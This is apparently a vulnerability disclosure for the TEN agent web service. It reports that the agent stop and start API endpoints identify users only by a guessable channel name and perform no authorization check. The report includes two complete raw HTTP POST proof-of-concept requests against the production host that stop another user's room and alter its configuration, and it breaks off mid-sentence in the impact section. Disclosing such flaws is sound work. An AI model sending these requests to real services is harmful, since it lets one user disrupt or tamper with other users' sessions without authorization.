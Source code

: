### Summary
A large number of interfaces only determine user identity through the parameter channel_name without performing permission verification  
**resulting in a large number of unauthorized vulnerabilities All interfaces have not undergone permission verification** 
**Allowing attackers to close other people's connections and data based on the channel name**



We can regard https://agent.theten.ai/home as victim example  
Use two accounts to replicate this operation
### DETAIL
1. Victim login  

![image](https://github.com/user-attachments/assets/5dd3199b-16fe-4496-9482-d1827374bb24)
Notice The channel name 

2. Attackers send data packets (Assume attcker guess the right victim channel name[quiet easy]) 

![image](https://github.com/user-attachments/assets/f3190e3c-373c-4041-bcd1-47275d628ba7)
POC 
```
POST /api/agents/stop HTTP/2
Host: agent.theten.ai
Content-Length: 85
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: https://agent.theten.ai
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://agent.theten.ai/home
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"request_id":"6182c335-2eb9-4f64-8c87-510b953d52b312","channel_name":"agora_02nq0h"}
```
The channel name can be traversed own By victim, and after this request is sent, the corresponding room will pause the connection

3. Users can reset the link properties in room by accessing the POST/app/agents/start interface
Note that there is no association between user_id and channel
![image](https://github.com/user-attachments/assets/abc831e8-e9f9-40a2-8454-84729ab5ccc3)
```
POST /api/agents/start HTTP/2
Host: agent.theten.ai
Content-Length: 178
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: https://agent.theten.ai
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://agent.theten.ai/home
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"request_id":"094a98a1-ece7-4906-95c5-bc3a877932a7","channel_name":"agora_02nq0h","user_uid":119866,"graph_name":"camera.va.openai.azure","language":"zh-CN","voice_type":"male"}
```


4. We edited the graph_name as separate data, but it was not displayed on the user's frontend, but it did indeed change in the backend

![image](https://github.com/user-attachments/assets/8e37fdd6-647e-4bd8-9faa-a94bbd2eb893)  




#### impact
Being able to modify someone else's room configuration beyond their authority and creating DOS vulnerabilities in their use of the room,Besides

